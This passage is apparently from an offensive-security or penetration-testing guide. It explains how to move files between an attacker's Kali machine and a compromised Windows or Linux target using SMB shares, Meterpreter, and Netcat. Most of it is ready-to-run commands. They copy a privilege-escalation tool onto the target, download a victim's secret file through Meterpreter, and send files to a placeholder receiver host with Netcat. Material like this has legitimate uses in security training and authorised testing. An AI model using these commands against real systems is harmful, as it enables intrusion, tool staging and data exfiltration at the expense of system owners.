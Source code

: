 ### 4. Using SMB (Windows File Sharing)
If you can create an SMB share, you can easily transfer files.

**On Your Attacking Machine (Kali):**
```bash
# Create a simple SMB share
sudo impacket-smbserver share-name /path/to/your/files -smb2support -username user -password pass
```
**On the Target Windows Machine:**
```cmd
# Map the network drive and copy the file (if allowed)
net use Z: \\YOUR_IP\share-name /user:user pass
copy Z:\winpeasany.exe .

# Or copy directly without mapping a drive
copy \\YOUR_IP\share-name\winpeasany.exe .
```

### 5. Using Metasploit/Meterpreter
This is often the simplest method once you have a initial shell.

**From a Meterpreter Session:**
```bash
# UPLOAD a file from your machine to the target
meterpreter > upload /path/to/winpeasany.exe C:\\Windows\\Temp\\

# DOWNLOAD a file from the target to your machine
meterpreter > download C:\\Users\\Victim\\secret.txt ./

# The meterpreter shell will automatically use the established connection.
```

### 6. Using Netcat (The "Last Resort" Method)
Netcat can be used to transfer raw data over any port. This is noisy and unstable for large files but can work in restricted environments.

**On the RECEIVING Machine (waiting for the file):**
```bash
# Linux (Receiver)
nc -lvnp 4444 > received_file

# Windows (Receiver)
nc.exe -lvnp 4444 > received_file
```

**On the SENDING Machine (initiating the transfer):**
```bash
# Linux (Sender)
nc -w 3 RECEIVER_IP 4444 < file_to_send

# Windows (Sender)
nc.exe -w 3 RECEIVER_IP 4444 < file_to_send.exe
```
